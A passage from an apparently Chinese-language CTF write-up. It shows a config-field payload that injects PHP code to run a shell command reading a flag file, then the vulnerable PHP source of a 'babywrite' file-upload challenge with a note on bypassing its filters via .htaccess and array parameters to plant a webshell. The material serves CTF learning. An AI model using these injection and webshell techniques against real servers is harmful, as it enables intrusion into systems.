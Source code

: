 ```shell
host=127.0.0.1&user=Exception&pwd=)?><?=`cat /fllllaaaaag`?>&port=123
```
![](./i/3.png)

4. babywrite

代码审计
```php
<?php
highlight_file(__FILE__);
$sandbox = md5($_SERVER['REMOTE_ADDR']);
if (!is_dir($sandbox)) {
    mkdir($sandbox);
}
if (isset($_GET['filename']) && isset($_GET['content'])) {
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    if (preg_match_all("/ph|\.\.|\//i", $filename) || strlen($filename) > 10) {
        die("No way!");
    }
    if (preg_match_all("/<\?|ph/", $content)) {
        die("No way!");
    }
    $filename = $sandbox . "/" . $filename;
    @file_put_contents($filename, $content);
    echo $filename;
}
```
一道简单的写马题，但是过滤又贼多，最终发现可以利用上传.htaccess绕过,并且可以利用数组绕过过滤
